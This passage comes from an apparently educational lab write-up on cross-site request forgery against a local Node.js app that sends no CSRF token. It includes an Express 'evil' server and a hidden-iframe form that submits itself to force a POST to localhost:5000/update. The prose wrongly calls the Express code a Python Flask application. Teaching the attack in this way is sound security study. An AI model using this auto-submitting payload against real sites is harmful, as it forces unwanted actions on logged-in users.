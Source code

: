 ![](../../.gitbook/assets/nodejs/CSRF-Samesite/2.png)

If we inspect the request with an intercepting proxy we can see that the application is performing a POST request that results in a data mutation, storing our favorite color into the session of the user and displaying this back to the user in the HTML website.

![](../../.gitbook/assets/nodejs/CSRF-Samesite/3.png)

Also we can see that the application is not using any form of protection for preventing CSRF because there is no unique token being send in the POST request.

## Exploitation

In order to to exploit this vulnerability we need to set up our evil webserver to do the malicious CSRF using a POST request from. We could achieve this by creating the following python flask application.

```javascript
const express = require("express");
const app = express();

app.use(express.static(__dirname + "/static"));
app.use(express.urlencoded({ extended: true }));

app.get("", (req, res) => {
  res.render("evil.ejs");
});

const port = process.env.PORT || 1337;

app.listen(port, "0.0.0.0", () => console.log(`Listening on port ${port}...!!!`));
```

Save the snippet above to &gt; evil_server.js and run the commands below to install some dependencies.

```text
$ npm install express ejs
```

Of course you can also run your app on whatever service you want it does not have to be nodejs express.

Now that the service is running we want to serve the malicious piece of javascript that is responsible for performing the malicious CSRF POST request.

```markup
<iframe style="display:none" name="csrf-frame"></iframe>
<form method='POST' action='http://localhost:5000/update' target="csrf-frame" id="csrf-form">
  <input type='hidden' name='color' value='Hackzord!'>
  <input type='submit' value='submit'>
</form>
<script>document.getElementById("csrf-form").submit()</script>
```
